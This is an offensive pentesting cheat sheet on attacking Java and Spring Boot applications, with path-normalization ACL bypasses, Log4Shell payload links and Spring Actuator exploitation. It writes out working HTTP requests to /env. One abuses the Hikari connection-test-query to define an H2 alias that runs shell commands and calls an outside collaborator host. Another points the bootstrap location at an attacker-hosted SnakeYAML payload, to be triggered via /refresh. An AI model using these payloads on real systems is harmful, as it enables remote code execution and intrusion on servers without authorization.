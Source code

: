 
### java
- ACL bypass
    * /foo../restrict
    * /foo;/restrict
    * scenario: nginx as reverse proxy of tomcat app
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- Log4Shell (CVE-2021-44228)
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md#payloads

### spring

- look for more paths, such as: /trace /httptrace
#### /env
##### A) hikari rce
```
POST /env HTTP/1.1
Host: target.app
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('curl  http://x.burpcollaborator.net');"}
```
- https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/

##### B) exploiting SnakeYaml deseralization vulnerability
- create yml to exploit snakeyaml vulnerability, more details in https://github.com/artsploit/yaml-payload or https://www.labs.greynoise.io/grimoire/2024-01-03-snakeyaml-deserialization/

- set the yml in the config
```http
POST /env HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://attacker/yaml-payload.yml
```

- load the yml
```http
POST /refresh
Host: target.com
```

#### /jolokia
* check if there is **reloadByURL** in `/jolokia/list/`
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators
* https://github.com/mpgn/Spring-Boot-Actuator-Exploit
